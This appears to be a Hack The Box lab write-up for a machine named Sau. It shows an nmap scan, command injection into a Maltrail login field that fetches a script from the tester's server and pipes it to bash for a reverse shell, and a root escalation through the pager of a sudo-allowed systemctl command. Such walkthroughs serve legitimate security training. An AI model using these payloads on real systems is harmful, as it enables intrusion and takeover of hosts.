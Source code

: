 ```
└──╼ [★]$ nmap -sC -A -p- -Pn 10.129.179.200
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 21:05 BST
Nmap scan report for 10.129.179.200
Host is up (0.083s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 13 Jul 2023 20:07:14 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 13 Jul 2023 20:06:49 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 13 Jul 2023 20:06:49 GMT
|_    Content-Length: 0
```

https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3


https://github.com/entr0pie/CVE-2023-27163

https://notes.sjtu.edu.cn/s/MUUhEymt7#



![image](https://github.com/Rogue-1/HTB/assets/105310322/eb39e2e0-55e6-4fd4-9042-95e0c8daf323)

![image](https://github.com/Rogue-1/HTB/assets/105310322/b72b6235-9bc6-4c77-b69e-4429b229ddae)

![image](https://github.com/Rogue-1/HTB/assets/105310322/ca3f4c9e-cb08-4f35-bde2-69d220cba015)


![image](https://github.com/Rogue-1/HTB/assets/105310322/c9306149-ddb9-40d8-9ac0-0db22caa475e)

```
└──╼ [★]$ curl -X POST --data 'username=;`curl -X POST http://10.129.166.37:55555/2nv68gc/login --data "$(id)"`' http://10.129.166.37:55555/2nv68gc/login
```


![image](https://github.com/Rogue-1/HTB/assets/105310322/15b37510-cde2-481c-bfb5-3a28f66a5000)



```
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.166.37 - - [25/Jul/2023 20:51:58] "GET /rev.sh HTTP/1.1" 200 -
```


```
└──╼ [★]$ curl -X POST --data 'username=;`curl -X POST http://10.129.166.37:55555/2nv68gc/login --data "$(curl http://10.10.14.78:8000/rev.sh|bash)"`' http://10.129.166.37:55555/2nv68gc/login
```


```
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.166.37.
Ncat: Connection from 10.129.166.37:44844.
sh: 0: can't access tty; job control turned off
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ 


$ cat user.txt
c9d8f5bbb***********************
```

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
```
$ script /dev/null /bin/bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```
# cat /root/root.txt
cat /root/root.txt
c5135dea66**********************
**********
```
